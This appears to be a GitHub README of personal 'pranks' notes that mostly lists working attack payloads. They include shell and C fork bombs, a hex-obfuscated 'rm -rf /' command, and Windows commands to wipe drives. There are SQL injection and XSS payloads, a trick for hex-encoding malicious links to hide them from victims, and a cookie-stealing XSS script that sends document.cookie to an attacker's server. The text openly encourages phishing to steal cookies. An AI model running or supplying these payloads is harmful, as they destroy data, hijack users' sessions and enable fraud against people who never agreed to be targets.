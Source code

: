 # pranks
These are my notes on bad things that can happen.  The focus here is programmatic stuff, if application security is your thing then you should check out OWASP Top 10 documentation!  [Click here for the 2017 version of that.](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)
  
## Terminal Commands
For use in a terminal or a command prompt or something  
  
### Fork Bomb
A form of DOS (denial of service) attack.  
The process continually replicates itself to deplete available system resources.  
In shell, it looks like this:  
```shell
:(){ :|: & };:
```
Also possible in C like this:
```c
int main() {
    while(1)
        fork();
    return 0;
}
```
### Deletion
First off, here are some hex shenanigans:
```shell
$(echo 7375646f20726d202d7266202f202d2d6e6f2d70726573657276652d726f6f74 | xxd -r -p)
```
This is hexidecimal, but converted to ascii its:
```shell
sudo rm -rf / --no-preserve-root
```
Which will delete everything from the selected directory.  
This does the same thing in Windows (maybe):  
```shell
Format C: /q /y
```
Supposedly delete windows, but windows will probably try to stop you  
idk I never actually tested it lol
```shell
rd /s /q c:\windows
```
## Stuff for username fields and search bars
For use in the event that you suspect certain technology is being used and want to check.
### SQL Injection
May be able to return all info from users table depending on the db
```SQL
anything';SELECT * FROM users WHERE 't' = 't
```
Error based injection - sql injection to provoke an error message, hopefully revealing sensitive information like db type, etc.  
Should create a statement that's always true and note out the rest of the code with the `--` at the end.
```SQL
SELECT * FROM users WHERE id = 1 OR 1 = 1--
```
Perhaps the application is detecting that you're using a sql injection and is giving you a generic error or no error in response.  If you want to check so see if the sql injection is being processed, try adding a time delay.
```SQL
if (is_srvrolemember('sysadmin') > 0) waitfor delay '0:0:5'
```
^That's for SQLServer, use `SLEEP(seconds)` for MySQL 5
### Cross-Site Scripting
Sometimes if you enter text into a searchbox and the page displays it, it may actually be injecting your input directly into the HTML of the page.  If that's happening, you can use <script> tags to inject code into the page.  Try the below code to see if XSS is possible:
```HTML
<script>alert("You'll see this text in an alert box if so");</script>
```
If you see the above input in plaintext, the page may be putting quotes around your input.  Add a `"` or `">` to the beginning and try again.  So what's the advantage of this?  Well not only can you make a page run script, but if the page displays your search in the URL then you could write your search, take the URL, and hex the search so that you could send the link to someone and they would not see your script unless they converted the hex back to ascii.
Use this converter: https://www.rapidtables.com/convert/number/ascii-to-hex.html
```
http://www.site.com/search.php?q="><script>alert("haxorz")</script>
would instead look like this
http://www.site.com/search.php?q=22%3e%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%68%61%78%6f%72%7a%22%29%3c%2f%73%63%72%69%70%74%3e
```
This is the oldest trick in the book and is still pretty common, so if you ever recieve a link from ANYONE with a hexadecimal search query, I always recommend dropping it into a hex/ascii converter so you can inspect it just to be safe (Even if it's a website you trust).  Now simply send a million emails pretending to be someone's grandma asking how to buy a birthday present online and start stealing cookies!
## Cookie stealin
The next part of stealing cookies requires a bit more work.  First you'll need a PHP script (like the one in this repo).  Then make a file called `log.txt`.  You'll need to store the php and log files on a server (I'm not going to walk you though that part, everyone and their mom has their own server.  Ask google if you need help).  I use a Raspberry Pi for this purpose.  Your XSS injection should look something like this:
```HTML
"><script language= "JavaScript">document.location="http://yourServerIpOrDomainName.com/nameOfYourPhpScript.php?cookie=" + document.cookie;document.location="http://www.pageYouWantToExploit.com"</script>
```
This should log the cookie and then redirect the user back to the source page but if you notice this causes an infinit loop, you may need to modify it with an onclick event like this:
```HTML
"><a href="#" onclick="document.location='http://yourServerIpOrDomainName.com/yourServerIpOrDomainName.php?cookie=' +escape(document.cookie);"><Click here if you are not automatically redirected></a></script>
```
The resulting log file should look something like the one in this repo.
## What do I do with this cookie
Coming soon
